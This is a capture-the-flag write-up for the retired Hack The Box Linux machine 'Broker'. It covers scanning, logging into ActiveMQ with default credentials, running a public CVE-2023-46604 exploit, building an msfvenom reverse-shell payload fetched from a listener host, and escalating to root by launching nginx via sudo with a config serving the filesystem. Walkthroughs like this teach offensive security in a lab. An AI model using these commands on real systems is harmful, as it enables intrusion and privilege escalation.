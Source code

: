 ```yaml
---
title : Broker
order : 3
---
```


This is a retired Linux box from Hack The Box.

`Date : 21 Dec 2023 Thursday`

### Table of Content 

1. [Recon](#recon)
2. [Shell as activemq](#shell-as-activemq)
3. [Privilege escalation](#privilege-escalation)


### Recon

#### Nmap 

```
nmap --min-rate 1000 -p- -Pn 10.129.230.87 -oN nmap_tcp.txt
```

Output : 

![Screenshot from 2023-12-21 14-23-15](https://github.com/kris3c/kris3c.github.io/assets/128035061/75531d30-1c01-4798-8f6c-b0cffe8950b7)



So we can see different ports are open on the machine lets start with port 80.

![Screenshot 2023-12-21 at 14-25-41 Apache ActiveMQ](https://github.com/kris3c/kris3c.github.io/assets/128035061/8369e271-641a-44ca-a626-a16848659c28)

so we can see here ActiveMQ is running lets check the version 

Visiting /admin endpoint 

Trying with default credentials 

```
Username: Admin
Password : Admin
```

It worked

![Screenshot 2023-12-21 at 14-29-10 localhost ActiveMQ Console](https://github.com/kris3c/kris3c.github.io/assets/128035061/99b34b74-bdd4-4871-b0e6-6c69a870c53b)

we can see the version of the activemq that is **5.15.15**

### Shell as activemq 

Upon Searching for exploit related to this version i came across this repo: 

[CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)

By following the instruction we can easily get the shell :

```
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
```

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
```

```
python3 -m http.server
```

Edit the file poc-linux.xml and adress for the poc-linux.xml 

```
go run main.go -i {Target_IP} -u http://{IP_Of_Hosted_XML_File}:$RPORT/poc-linux.xml
```


### Privilege escalation

```
sudo -l 
```

![Screenshot from 2023-12-21 14-37-13](https://github.com/kris3c/kris3c.github.io/assets/128035061/aca8b287-5bc0-4e5a-a830-d9521dea4395)

we can execute the nginx with root privileges so let's start a web server which give is root access to the server on which it is running

```
cat /etc/nginx/nginx.conf | grep -v "/#" 
```

```
cat /etc/nginx/sites-enabled/default 
```

make a file on your system 

```
nano nginx.conf
```

```
user root;
worker_processes auto;
pid /run/nginx2.pid;
include /etc/nginx/modules-enabled/*.conf;
events {
	worker_connections 768;
}

http {
	server {
    		listen 1337;
    		location / {
    			root /;
    		}
        
      }
}

```

start python server 

```
python -m http.server
```

Download it on the machine in the /dev/shm directory

```
wget http://$RHOST:8000/nginx.conf
```

start the server

```
sudo nginx -c /dev/shm/nginx.conf
```

download the flag :

```
 curl http://localhost:1337/root/root.txt
```
